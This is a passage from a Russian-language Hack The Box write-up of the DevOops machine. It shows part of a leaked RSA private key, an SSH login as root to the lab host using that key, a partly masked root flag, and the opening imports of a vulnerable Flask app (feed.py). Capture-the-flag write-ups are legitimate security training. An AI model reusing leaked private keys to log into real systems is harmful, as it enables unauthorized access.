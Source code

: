 ```
+qML/WvECgYEAyNoevgP+tJqDtrxGmLK2hwuoY11ZIgxHUj9YkikwuZQOmFk3EffI
+T3Sd/6nWVzi1FO16KjhRGrqwb6BCDxeyxG508hHzikoWyMN0AA2st8a8YS6jiOog
+bU34EzQLp7oRU/TKO6Mx5ibQxkZPIHfgA1+Qsu27yIwlprQ64+oeEr0=
 -----END RSA PRIVATE KEY-----
+
```

SSH-ключ. Заберем на Кали и ~~попробуем авторизоваться~~ авторизуемся с ним под суперпользователем:
```text
root@kali:~# chmod 600 root.key
root@kali:~# ssh -oStrictHostKeyChecking=no -i root.key root@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Mon Mar 26 06:23:48 2018 from 192.168.57.1
root@gitter:~# whoami
root

root@gitter:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### root.txt
```text
root@gitter:~# cat /root/root.txt
d4fe1e7f????????????????????????
```

DevOops пройден :triumph:

![owned-user.png](/assets/images/htb/machines/devoops/owned-user.png)
{:.center-image}

![owned-root.png](/assets/images/htb/machines/devoops/owned-root.png)
{:.center-image}

![trophy.png](/assets/images/htb/machines/devoops/trophy.png)
{:.center-image}

# Эпилог
## feed.py
Посмотрим, какие символы блочили нам захват исходников `/home/roosa/deploy/src/feed.py` целиком:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# TODO: replace manual upload with proper integration to backend


from flask import Flask, request, redirect, url_for, send_from_directory
from werkzeug.utils import secure_filename
from werkzeug.debug import DebuggedApplication
import re
import os
import xml.sax
import cPickle as pickle
```